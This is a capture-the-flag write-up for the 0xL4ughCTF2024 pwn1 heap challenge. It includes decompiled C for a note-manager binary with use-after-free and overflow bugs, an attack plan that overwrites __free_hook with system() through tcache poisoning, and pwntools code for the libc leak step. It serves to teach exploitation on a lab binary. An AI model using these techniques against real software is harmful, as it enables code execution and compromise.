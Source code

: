 # 0xL4ughCTF2024 PWN - Pwn1

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/3077be0a-a14b-44d0-aba1-eb83bab960de)

The pwn1 challenge was a medium difficulty pwn challenge with 63 solves

## Initial Analysis

Unzipping the file gives us an ELF file, libc-2.31 and the loader for it. To start off, we will first patch the binary using [pwninit](https://github.com/io12/pwninit) to use the provided libc.

```shell
└─$ file chall_patched     
chall_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, BuildID[sha1]=96e20e69c031cc67b1471e7f8435b9967b5a155f, for GNU/Linux 3.2.0, not stripped
```

Its a 64-bit executable and it is not stripped so thats always helpful.

```shell
└─$ checksec --file=chall_patched 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   77 Symbols        No    0               1               chall_patched
```

Looks like all the protections are enabled.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/1d16fe99-296d-4339-b3ee-40248d2396bc)

Running the binary shows that it is one of those menu challenges where you can manage your notes.

## Decompiled Code

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  long in_FS_OFFSET;
  int option;
  int noteToDelete;
  int totalNotes;
  char *local_1b8;
  char *pChunk;
  char *notes [51];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  totalNotes = 0;
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          while( true ) {
            menu();
            __isoc99_scanf("%d",&option);
            getchar();
            if (option != 1) break;
            pChunk = (char *)malloc(0x28);
            puts("Enter the note");
            fgets(pChunk,10,stdin);
            puts("Note created");
            notes[totalNotes] = pChunk;
            totalNotes = totalNotes + 1;
          }
          if (option != 2) break;
          puts("Which note do you want to delete?");
          __isoc99_scanf("%d",&noteToDelete);
          getchar();
          if (totalNotes < noteToDelete) {
            puts("Invalid choice");
          }
          else {
            free(notes[noteToDelete + -1]);
          }
        }
        if (option != 3) break;
        puts("Which note do you want to edit?");
        __isoc99_scanf("%d",&noteToDelete);
        getchar();
        if (totalNotes < noteToDelete) {
          puts("Invalid choice");
        }
        else {
          fgets(notes[noteToDelete + -1],100,stdin);
          puts("Note edited");
        }
      }
      if (option != 4) break;
      puts("Which note do you want to read?");
      __isoc99_scanf("%d",&noteToDelete);
      getchar();
      if (totalNotes < noteToDelete) {
        puts("Invalid choice");
      }
      else {
        puts(notes[noteToDelete + -1]);
      }
    }
    if (option == 5) break;
    if (option == 10) {
      local_1b8 = (char *)malloc(0x4b0);
      puts("Enter the note");
      fgets(local_1b8,10,stdin);
      puts("Note created");
      notes[totalNotes] = local_1b8;
      totalNotes = totalNotes + 1;
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

- From the decompiled code above, we can see that option 1 creates a note by allocating memory from the heap and adds the pointer to that chunk into an array. 
- Option 2 lets us delete a note by free-ing up the heap chunk. However, the pointer to that specific chunk is still inside our array which gives us a Use-After-Free vulnerability. 
- Option 3 lets us edit a note but theres an obvious buffer overflow there. 
- Option 4 lets us read the content inside the heap chunk which we will use to get leaks later. 
- Additionally, theres option 10 which creates a really big heap chunk.

## Attack Strategy

I recently read a writeup from last week's CTF which was a heap challenge whereby the author overwrites the __free_hook by poisoning the tcache to create a fake chunk inside libc. So when I saw this challenge, this was the first thing that came to my mind. I did a quick google search and found that __free_hook has been removed from libc for version 2.34 and above. Luckily, the libc version that we are using is 2.31.

Heres some explanation of what __free_hook is from ChatGPT

> "__free_hook" is a hook function in the GNU C Library (glibc) that allows programmers to intercept calls to the free() function. The purpose of __free_hook is to provide a mechanism for developers to customize the behavior of memory deallocation. By default, __free_hook points to the standard free() function. However, you can set __free_hook to point to your own custom function

Our attack flow will be as follows :

1. Leak libc with option 10
2. Overflow into a free'd chunk to modify its FD and BK pointers to point to __free_hook
3. Create a chunk inside __free_hook and modify it to point to system()
4. Call free() on a chunk with "/bin/sh"

## Step 1 : Leak libc

We know that option 10 creates a really big heap chunk. When this big chunk is freed, it goes into the unsorted bin rather than the tcache because of its size. When this chunk is inside the unsorted bin, it contains pointers to the main arena, which is inside libc. Then, we will read its content to get a leak

```python
# Step 1 : Leak libc
p.sendlineafter(b"Exit\n", "10") # 1
p.sendline("AAAA")
create("AAAA") # 2
delete(1)
read(1)
leak = p.recvline().strip()
leak = leak + b"\x00\x00"
leak = u64(leak)
log.info(f"Libc leak : {hex(leak)}")
libc.address = leak - (0x007f99c0dd0be0 - 0x007f99c0be5000)
log.info(f"Libc base : {hex(libc.address)}")
```

